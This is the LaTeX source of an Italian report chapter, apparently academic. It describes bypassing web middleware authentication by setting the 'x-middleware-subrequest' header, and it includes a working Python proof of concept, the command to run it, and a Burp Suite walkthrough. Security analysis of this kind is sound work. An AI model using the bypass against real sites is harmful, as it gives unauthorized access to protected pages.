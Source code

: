 \documentclass[a4paper,oneside,12pt]{report}
\begin{document}
\chapter{Exploitation}
\label{chap:exploitation}

L'attacco \`e molto semplice e richiede d'inviare una richiesta HTTP ad una pagina protetta dal middleware impostando l'header \texttt{x-middleware-subrequest} ad uno dei valori vulnerabili descritti nel capitolo precedente.

\section{\textit{Proof of Concept} (PoC) in Python}
\label{sec:poc-python}

\begin{verbatim}
import requests, sys

protected_page = sys.argv[1] if len(sys.argv) > 1 else "http://localhost:3000/dashboard"

response = requests.get(protected_page, headers={
    'X-Middleware-Subrequest': 'middleware'
}, allow_redirects=False)

# Do stuff with the reponse
\end{verbatim}

Il PoC fornito pu\`o essere eseguito con il comando:
\begin{center}
	\scriptsize
	\texttt{python3 exploit.py [pagina\_protetta]}
\end{center}
ed eseguir\`a una richiesta alla pagina protetta fornita come argomento usando l'header vulnerabile.

\section{\textit{Proof of Concept} (PoC) in Burp Suite}
\label{sec:poc-burp-suite}

\`E possibile anche usare \emph{Burp Suite} per eseguire l'exploit inserendo manualmente l'header nella richiesta.

\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{images/burpsuite_exploit_redirect.png}
	\caption{Richiesta senza header vulnerabile in Burp Suite}
	\label{fig:burpsuite-exploit-redirect}
\end{figure}
\end{document}
